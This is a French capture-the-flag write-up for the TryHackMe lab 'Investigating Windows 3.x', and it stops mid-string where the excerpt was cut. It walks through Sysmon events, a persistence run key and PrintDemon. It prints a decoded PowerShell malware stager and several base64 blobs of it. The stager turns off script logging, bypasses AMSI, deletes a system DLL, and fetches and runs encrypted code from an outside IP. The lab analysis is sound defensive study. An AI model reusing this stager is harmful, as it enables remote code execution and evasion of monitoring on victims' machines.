# Investigating Windows 3.x #

## Task 1 Investigating Windows 3.x ## 

**What is the registry key with the encoded payload? (full path)**



La clef de registre encodée est dans autorun sur le bureau de windows.  

La réponse est : HKCU:Software\Microsoft\Windows\CurrentVersion Debug  

**What is the rule name for this run key generated by Sysmon?**



Dans event viewer on trouve nom de la règle qui est : T1547.001

**What tactics is classified with this MITRE ATT&CK ID?**

En regardant de MITRE dans la technique T1547.001 on voit que technique est :  Persistence, Privilege Escalation   

**What was UTC time for the Sysmon event?**



Dans event viewer de la question 2 dans les détails on trouve l'UTCtime pour l'événement Sysmon.  

L'UTC tim est : 2021-01-22 01:08:13.468   

**What was the Sysmon Event ID? Event Type? (answer, answer)**


Dans event viewer Event ID est 13 et Event Type est SetValue.  

La réponse est : 13, SetValue  

**Decode the payload. What service will the payload attempt start?**



```text
regjump HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion
```

On va ou est mis la charge utile.  

  

On récupère la charge utile.   

```bash
echo 'payload encode' | base64 -d 

sc.exe start Fax;$FTPServer = "localhost";$FTPPort = "9299";$tcpConnection = New-Object System.Net.Sockets.TcpClient($FTPServer, $FTPPort);$tcpStream = $tcpConnection.GetStream();$reader = New-Object System.IO.StreamReader($tcpStream);$writer = New-Object System.IO.StreamWriter($tcpStream);$writer.AutoFlush = $true;$commands = @( "DQA=",'awBpAGwAbAAgACgARwBlAHQALQBQAHIAbwBjAGUAcwBzACAARgBYAFMAUwBWAEMAKQAuAEkAZAAgAC0AZgBvAHIAYwBlADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAtAHAAYQB0AGgAIAAgACcAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHUAYQBsAGEAcABpAC4AZABsAGwAJwA7AEkARgAoACQAUABTAFYARQByAFMASQBPAE4AVABBAEIAbABFAC4AUABTAFYARQByAHMASQBvAE4ALgBNAEEASgBPAHIAIAAtAEcARQAgADMAKQB7ACQAZgBmAGYANgA9AFsAcgBlAGYAXQAuAEEAUwBzAGUAbQBCAEwAeQAuAEcAZQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABmAGYARgA2ACkAewAkAEIAOQBCAEUAPQAkAGYARgBmADYALgBHAEUAVABWAGEAbABVAGUAKAAkAE4AVQBMAEwAKQA7AEkAZgAoACQAQgA5AGIARQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkAEIAOQBCAGUAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AMAA7ACQAYgA5AEIAZQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBsAD0AWwBDAE8ATABsAEUAQwB0AGkATwBuAFMALgBHAEUAbgBFAHIASQBjAC4ARABJAGMAVABJAG8ATgBBAFIAeQBbAFMAVAByAGkAbgBHACwAUwB5AFMAdABFAE0ALgBPAEIAagBlAGMAVABdAF0AOgA6AG4ARQB3ACgAKQA7ACQAVgBhAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAVgBBAEwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABiADkAYgBFAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAFYAQQBsAH0ARQBsAFMARQB7AFsAUwBDAFIAaQBwAFQAQgBsAG8AYwBrAF0ALgAiAEcAZQBUAEYAaQBlAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATAB1AGUAKAAkAG4AVQBMAGwALAAoAE4AZQB3AC0ATwBCAGoARQBDAHQAIABDAE8ATABsAGUAYwB0AEkAbwBOAHMALgBHAEUAbgBlAHIASQBDAC4ASABhAFMASABTAGUAVABbAHMAVAByAEkAbgBnAF0AKQApAH0AJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAUwBTAEUAbQBiAGwAeQAuAEcAZQBUAFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBmAC4ARwBFAHQARgBJAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAGEATABVAEUAKAAkAG4AdQBMAGwALAAkAFQAcgB1AEUAKQA7AH0AOwBbAFMAeQBzAHQARQBtAC4ATgBFAFQALgBTAEUAcgBWAEkAQwBFAFAAbwBJAG4AdABNAEEAbgBBAGcAZQBSAF0AOgA6AEUAeABQAEUAYwBUADEAMAAwAEMATwBuAFQASQBuAHUAZQA9ADAAOwAkADIANwBDAEUAPQBOAGUAVwAtAE8AQgBKAEUAYwB0ACAAUwBZAHMAVABFAG0ALgBOAEUAdAAuAFcARQBCAEMAbABJAGUATgBUADsAJAB1AD0AJwBNAG8AegBpAGwAbABhAC8ANQAuADAAIAAoAFcAaQBuAGQAbwB3AHMAIABOAFQAIAA2AC4AMQA7ACAAVwBPAFcANgA0ADsAIABUAHIAaQBkAGUAbgB0AC8ANwAuADAAOwAgAHIAdgA6ADEAMQAuADAAKQAgAGwAaQBrAGUAIABHAGUAYwBrAG8AJwA7ACQAcwBlAHIAPQAkACgAWwBUAEUAeAB0AC4ARQBOAEMAbwBEAGkATgBnAF0AOgA6AFUATgBpAEMAbwBEAGUALgBHAEUAVABTAHQAcgBpAG4AZwAoAFsAQwBPAG4AVgBlAFIAdABdADoAOgBGAHIATwBNAEIAQQBzAEUANgA0AFMAVAByAEkATgBnACgAJwBhAEEAQgAwAEEASABRAEEAYwBBAEEANgBBAEMAOABBAEwAdwBBAHoAQQBEAFEAQQBMAGcAQQB5AEEARABRAEEATgBRAEEAdQBBAEQARQBBAE0AZwBBADQAQQBDADQAQQBNAFEAQQAyAEEARABFAEEATwBnAEEANQBBAEQAQQBBAE0AQQBBAHgAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGEAZABtAGkAbgAvAGcAZQB0AC4AcABoAHAAJwA7ACQAMgA3AEMARQAuAEgAZQBhAGQARQByAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkADIANwBDAGUALgBQAHIATwB4AFkAPQBbAFMAeQBTAFQARQBtAC4ATgBFAFQALgBXAEUAQgBSAEUAcQBVAGUAcwBUAF0AOgA6AEQAZQBmAEEAVQBsAHQAVwBFAEIAUABSAE8AWABZADsAJAAyADcAYwBlAC4AUABSAE8AWAB5AC4AQwByAEUARABFAE4AVABJAGEAbABzACAAPQAgAFsAUwB5AFMAdABlAG0ALgBOAEUAdAAuAEMAUgBFAGQARQBuAFQAaQBBAGwAQwBBAEMAaABFAF0AOgA6AEQARQBGAEEAVQBMAFQATgBlAFQAdwBvAFIASwBDAHIARQBkAGUAbgBUAGkAQQBMAFMAOwAkAFMAYwByAGkAcAB0ADoAUAByAG8AeAB5ACAAPQAgACQAMgA3AGMAZQAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAdABFAG0ALgBUAGUAWABUAC4ARQBuAEMAbwBEAGkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQBUAGUAcwAoACcAYQB3AFgAVQBEAGsAaQB0ADwAbwBWADkASgBjAFIATwBMAHsAJQBnAFEALgB8ADMAbgBIAHEATQBwAEEALwBsACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAMgA3AEMARQAuAEgAZQBhAEQAZQByAHMALgBBAGQARAAoACIAQwBvAG8AawBpAGUAIgAsACIAUgBqAE0AZQBlAGsAPQBaAG0AUQBMAEgAYQBjAE0AQgBYAHIATABjAEIAKwBWAEUAbAB2AEwAYwB3AE8AMgA2AEUAWQA9ACIAKQA7ACQARABhAHQAQQA9ACQAMgA3AEMAZQAuAEQATwB3AG4AbABvAEEAZABEAEEAdABBACgAJABTAGUAcgArACQAVAApADsAJABpAHYAPQAkAEQAYQBUAEEAWwAwAC4ALgAzAF0AOwAkAEQAYQB0AEEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAEQAYQB0AGEALgBsAEUATgBnAHQAaABdADsALQBqAE8ASQBOAFsAQwBIAEEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAQQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==',"DQA=" );while ($tcpConnection.Connected){while ($tcpStream.DataAvailable){$reader.ReadLine()};if ($tcpConnection.Connected){For($i = 0; $i -lt 5; $i++){ForEach ($str in $commands){Start-Sleep -s 1;$command = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($str));$writer.WriteLine($command) | Out-Null;};};break;};};$reader.Close();$writer.Close();$tcpConnection.Close();

```

Un décoder on que le service qui va être exécuter est : Fax  

**The payload attempts to open a local port. What is the port number?**

Dans la charge en trouve ceci : $FTPPort = "9299"
La charge utile essaie d'ouvrir le port 9299.  

**What process does the payload attempt to terminate?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'awBpAGwAbAAgACgARwBlAHQALQBQAHIAbwBjAGUAcwBzACAARgBYAFMAUwBWAEMAKQAuAEkAZAAgAC0AZgBvAHIAYwBlADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAtAHAAYQB0AGgAIAAgACcAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHUAYQBsAGEAcABpAC4AZABsAGwAJwA7AEkARgAoACQAUABTAFYARQByAFMASQBPAE4AVABBAEIAbABFAC4AUABTAFYARQByAHMASQBvAE4ALgBNAEEASgBPAHIAIAAtAEcARQAgADMAKQB7ACQAZgBmAGYANgA9AFsAcgBlAGYAXQAuAEEAUwBzAGUAbQBCAEwAeQAuAEcAZQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABmAGYARgA2ACkAewAkAEIAOQBCAEUAPQAkAGYARgBmADYALgBHAEUAVABWAGEAbABVAGUAKAAkAE4AVQBMAEwAKQA7AEkAZgAoACQAQgA5AGIARQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkAEIAOQBCAGUAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AMAA7ACQAYgA5AEIAZQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBsAD0AWwBDAE8ATABsAEUAQwB0AGkATwBuAFMALgBHAEUAbgBFAHIASQBjAC4ARABJAGMAVABJAG8ATgBBAFIAeQBbAFMAVAByAGkAbgBHACwAUwB5AFMAdABFAE0ALgBPAEIAagBlAGMAVABdAF0AOgA6AG4ARQB3ACgAKQA7ACQAVgBhAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAVgBBAEwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABiADkAYgBFAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAFYAQQBsAH0ARQBsAFMARQB7AFsAUwBDAFIAaQBwAFQAQgBsAG8AYwBrAF0ALgAiAEcAZQBUAEYAaQBlAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATAB1AGUAKAAkAG4AVQBMAGwALAAoAE4AZQB3AC0ATwBCAGoARQBDAHQAIABDAE8ATABsAGUAYwB0AEkAbwBOAHMALgBHAEUAbgBlAHIASQBDAC4ASABhAFMASABTAGUAVABbAHMAVAByAEkAbgBnAF0AKQApAH0AJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAUwBTAEUAbQBiAGwAeQAuAEcAZQBUAFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBmAC4ARwBFAHQARgBJAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAGEATABVAEUAKAAkAG4AdQBMAGwALAAkAFQAcgB1AEUAKQA7AH0AOwBbAFMAeQBzAHQARQBtAC4ATgBFAFQALgBTAEUAcgBWAEkAQwBFAFAAbwBJAG4AdABNAEEAbgBBAGcAZQBSAF0AOgA6AEUAeABQAEUAYwBUADEAMAAwAEMATwBuAFQASQBuAHUAZQA9ADAAOwAkADIANwBDAEUAPQBOAGUAVwAtAE8AQgBKAEUAYwB0ACAAUwBZAHMAVABFAG0ALgBOAEUAdAAuAFcARQBCAEMAbABJAGUATgBUADsAJAB1AD0AJwBNAG8AegBpAGwAbABhAC8ANQAuADAAIAAoAFcAaQBuAGQAbwB3AHMAIABOAFQAIAA2AC4AMQA7ACAAVwBPAFcANgA0ADsAIABUAHIAaQBkAGUAbgB0AC8ANwAuADAAOwAgAHIAdgA6ADEAMQAuADAAKQAgAGwAaQBrAGUAIABHAGUAYwBrAG8AJwA7ACQAcwBlAHIAPQAkACgAWwBUAEUAeAB0AC4ARQBOAEMAbwBEAGkATgBnAF0AOgA6AFUATgBpAEMAbwBEAGUALgBHAEUAVABTAHQAcgBpAG4AZwAoAFsAQwBPAG4AVgBlAFIAdABdADoAOgBGAHIATwBNAEIAQQBzAEUANgA0AFMAVAByAEkATgBnACgAJwBhAEEAQgAwAEEASABRAEEAYwBBAEEANgBBAEMAOABBAEwAdwBBAHoAQQBEAFEAQQBMAGcAQQB5AEEARABRAEEATgBRAEEAdQBBAEQARQBBAE0AZwBBADQAQQBDADQAQQBNAFEAQQAyAEEARABFAEEATwBnAEEANQBBAEQAQQBBAE0AQQBBAHgAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGEAZABtAGkAbgAvAGcAZQB0AC4AcABoAHAAJwA7ACQAMgA3AEMARQAuAEgAZQBhAGQARQByAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkADIANwBDAGUALgBQAHIATwB4AFkAPQBbAFMAeQBTAFQARQBtAC4ATgBFAFQALgBXAEUAQgBSAEUAcQBVAGUAcwBUAF0AOgA6AEQAZQBmAEEAVQBsAHQAVwBFAEIAUABSAE8AWABZADsAJAAyADcAYwBlAC4AUABSAE8AWAB5AC4AQwByAEUARABFAE4AVABJAGEAbABzACAAPQAgAFsAUwB5AFMAdABlAG0ALgBOAEUAdAAuAEMAUgBFAGQARQBuAFQAaQBBAGwAQwBBAEMAaABFAF0AOgA6AEQARQBGAEEAVQBMAFQATgBlAFQAdwBvAFIASwBDAHIARQBkAGUAbgBUAGkAQQBMAFMAOwAkAFMAYwByAGkAcAB0ADoAUAByAG8AeAB5ACAAPQAgACQAMgA3AGMAZQAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAdABFAG0ALgBUAGUAWABUAC4ARQBuAEMAbwBEAGkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQBUAGUAcwAoACcAYQB3AFgAVQBEAGsAaQB0ADwAbwBWADkASgBjAFIATwBMAHsAJQBnAFEALgB8ADMAbgBIAHEATQBwAEEALwBsACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAMgA3AEMARQAuAEgAZQBhAEQAZQByAHMALgBBAGQARAAoACIAQwBvAG8AawBpAGUAIgAsACIAUgBqAE0AZQBlAGsAPQBaAG0AUQBMAEgAYQBjAE0AQgBYAHIATABjAEIAKwBWAEUAbAB2AEwAYwB3AE8AMgA2AEUAWQA9ACIAKQA7ACQARABhAHQAQQA9ACQAMgA3AEMAZQAuAEQATwB3AG4AbABvAEEAZABEAEEAdABBACgAJABTAGUAcgArACQAVAApADsAJABpAHYAPQAkAEQAYQBUAEEAWwAwAC4ALgAzAF0AOwAkAEQAYQB0AEEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAEQAYQB0AGEALgBsAEUATgBnAHQAaABdADsALQBqAE8ASQBOAFsAQwBIAEEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAQQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==' | base64 -d
kill (Get-Process FXSSVC).Id -force; Remove-Item -path  'C:\Windows\System32\ualapi.dll';IF($PSVErSIONTABlE.PSVErsIoN.MAJOr -GE 3){$fff6=[ref].ASsemBLy.GetTypE('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($ffF6){$B9BE=$fFf6.GETValUe($NULL);If($B9bE['ScriptB'+'lockLogging']){$B9Be['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$b9Be['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$vAl=[COLlECtiOnS.GEnErIc.DIcTIoNARy[STrinG,SyStEM.OBjecT]]::nEw();$Val.ADD('EnableScriptB'+'lockLogging',0);$VAL.ADd('EnableScriptBlockInvocationLogging',0);$b9bE['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl}ElSE{[SCRipTBlock]."GeTFie`ld"('signatures','N'+'onPublic,Static').SETVaLue($nULl,(New-OBjECt COLlectIoNs.GEnerIC.HaSHSeT[sTrIng]))}$Ref=[Ref].ASSEmbly.GeTType('System.Management.Automation.Amsi'+'Utils');$REf.GEtFIELD('amsiInitF'+'ailed','NonPublic,Static').SetVaLUE($nuLl,$TruE);};[SystEm.NET.SErVICEPoIntMAnAgeR]::ExPEcT100COnTInue=0;$27CE=NeW-OBJEct SYsTEm.NEt.WEBClIeNT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TExt.ENCoDiNg]::UNiCoDe.GETString([COnVeRt]::FrOMBAsE64STrINg('aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==')));$t='/admin/get.php';$27CE.HeadErs.ADD('User-Agent',$u);$27Ce.PrOxY=[SySTEm.NET.WEBREqUesT]::DefAUltWEBPROXY;$27ce.PROXy.CrEDENTIals = [SyStem.NEt.CREdEnTiAlCAChE]::DEFAULTNeTwoRKCrEdenTiALS;$Script:Proxy = $27ce.Proxy;$K=[SystEm.TeXT.EnCoDiNg]::ASCII.GeTBYTes('awXUDkit<oV9JcROL{%gQ.|3nHqMpA/l');$R={$D,$K=$ArGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$27CE.HeaDers.AdD("Cookie","RjMeek=ZmQLHacMBXrLcB+VElvLcwO26EY=");$DatA=$27Ce.DOwnloAdDAtA($Ser+$T);$iv=$DaTA[0..3];$DatA=$dAtA[4..$Data.lENgth];-jOIN[CHAr[]](& $R $dAtA ($IV+$K))|IEXt

```

On décode le reste de la charge utile.  
Dans le reste la charge on voit : kill (Get-Process FXSSVC)     

La charge essaie de tuer la processus FXSSVC.    

**What DLL file does the payload attempt to remove? (full path)**  

Dans la charge utile on trouve ceci : Remove-Item -path  'C:\Windows\System32\ualapi.dll'  

La charge utilile essaie de supprimer ualapi.dll  

Le chemin complet est : C:\Windows\System32\ualapi.dll  

**What is the Windows Event ID associated with this service?**   

  

Dans Event viewer to -> Application and Service Logs -> Microsoft -> Window -> PrintService on trouve l'ID.   
 
L'ID est 823.    

**What is listed as the New Default Printer?**

  

Dans détails on trouve la nouvelle imprimante par défaut qui est : PrintDemon   

**What process is associated with this event?**

  

En faisant une recherche avec ualapi.dll dans le process monitor on trouve spoolsv.exe   
Donc le processus est : spoolsv.exe

**What is the parent PID for the above process?**

  

Dans event propreties dans process dans parent PID on le trouve.   
PID est le 620.  

**Examine the other processes. What is the PID of the process running the encoded payload?**   

   

Le processus avec la charge utile encodée est le : 3088  

**Decode the payload. What is the a visible partial path?**

```bash
tim@kali:~/Bureau/tryhackme/write-up/windows3$ echo 'SQBGACgAJABQAFMAVgBFAHIAUwBJAE8ATgBUAEEAQgBsAEUALgBQAFMAVgBFAHIAcwBJAG8ATgAuAE0AQQBKAE8AcgAgAC0ARwBFACAAMwApAHsAJABmAGYAZgA2AD0AWwByAGUAZgBdAC4AQQBTAHMAZQBtAEIATAB5AC4ARwBlAHQAVAB5AHAARQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAFUAdABpAGwAcwAnACkALgAiAEcAZQB0AEYAaQBlAGAAbABkACIAKAAnAGMAYQBjAGgAZQBkAEcAcgBvAHUAcABQAG8AbABpAGMAeQBTAGUAdAB0AGkAbgBnAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkAOwBJAGYAKAAkAGYAZgBGADYAKQB7ACQAQgA5AEIARQA9ACQAZgBGAGYANgAuAEcARQBUAFYAYQBsAFUAZQAoACQATgBVAEwATAApADsASQBmACgAJABCADkAYgBFAFsAJwBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AKQB7ACQAQgA5AEIAZQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABiADkAQgBlAFsAJwBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AWwAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwBdAD0AMAB9ACQAdgBBAGwAPQBbAEMATwBMAGwARQBDAHQAaQBPAG4AUwAuAEcARQBuAEUAcgBJAGMALgBEAEkAYwBUAEkAbwBOAEEAUgB5AFsAUwBUAHIAaQBuAEcALABTAHkAUwB0AEUATQAuAE8AQgBqAGUAYwBUAF0AXQA6ADoAbgBFAHcAKAApADsAJABWAGEAbAAuAEEARABEACgAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABWAEEATAAuAEEARABkACgAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAGIAOQBiAEUAWwAnAEgASwBFAFkAXwBMAE8AQwBBAEwAXwBNAEEAQwBIAEkATgBFAFwAUwBvAGYAdAB3AGEAcgBlAFwAUABvAGwAaQBjAGkAZQBzAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAUABvAHcAZQByAFMAaABlAGwAbABcAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQA9ACQAVgBBAGwAfQBFAGwAUwBFAHsAWwBTAEMAUgBpAHAAVABCAGwAbwBjAGsAXQAuACIARwBlAFQARgBpAGUAYABsAGQAIgAoACcAcwBpAGcAbgBhAHQAdQByAGUAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMARQBUAFYAYQBMAHUAZQAoACQAbgBVAEwAbAAsACgATgBlAHcALQBPAEIAagBFAEMAdAAgAEMATwBMAGwAZQBjAHQASQBvAE4AcwAuAEcARQBuAGUAcgBJAEMALgBIAGEAUwBIAFMAZQBUAFsAcwBUAHIASQBuAGcAXQApACkAfQAkAFIAZQBmAD0AWwBSAGUAZgBdAC4AQQBTAFMARQBtAGIAbAB5AC4ARw